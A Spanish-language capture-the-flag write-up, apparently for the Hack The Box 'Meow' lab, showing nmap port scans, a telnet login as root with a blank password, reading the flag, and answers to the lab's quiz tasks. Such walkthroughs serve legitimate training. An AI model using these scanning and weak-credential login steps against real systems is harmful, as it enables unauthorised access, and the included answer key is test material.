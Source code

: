 [[Telnet]]
[[Credenciales débiles]]
[[Cofiguración insegura]]

IP atacante: `10.10.16.133`
IP victima:  `10.129.6.240`

`$sudo nmap -p- -Pn -sS -n --min-rate 5000 10.129.6.240`
```java
PORT   STATE SERVICE
23/tcp open  telnet
```

Telnet es un popular protocolo de red que le permite conectarse virtualmente a un ordenador remoto. [Es un protocolo antiguo desarrollado en 1969.](https://geekflare.com/es/telnet-commands-to-troubleshoot-connection-issues/)

`$sudo nmap -p23 -sSCV -v 10.129.6.240`
```java
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPnc-vn E: cpe:/o:linux:linux_kernel

```

Nos conectamos directamente al servidor en el puerto 23 sin esperar una respuesta del servidor `-n`.
```java
$telnet 10.129.6.240 23
Trying 10.129.6.240...
Connected to 10.129.6.240.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login:
```

`Meow login: root`
```java
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)
...
root@Meow:~# 

```

`# cat flag.txt`
```java
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
```
#### Tarea 1
¿Qué significa el acrónimo VM?  *Virtual Machine*
#### Tarea 2
¿Qué herramienta usamos para interactuar con el sistema operativo y emitir comandos a través de la línea de comandos, como la que inicia nuestra conexión VPN?   *terminal*
#### Tarea 3
¿Qué servicio utilizamos para configurar nuestra conexión VPN en HTB Labs?   *openvpn*
#### Tarea 4
¿Qué herramienta utilizamos para probar nuestra conexión con el objetivo con una solicitud de eco ICMP?   *ping*
#### Tarea 5
¿Cuál es el nombre de la herramienta más común para encontrar puertos abiertos en un objetivo?   *nmap*
#### Tarea 6
¿Qué servicio identificamos en el puerto 23/tcp durante nuestros escaneos?   *telnet*

#### Tarea 7
¿Qué nombre de usuario puede iniciar sesión en el destino a través de telnet con una contraseña en blanco?   *root*







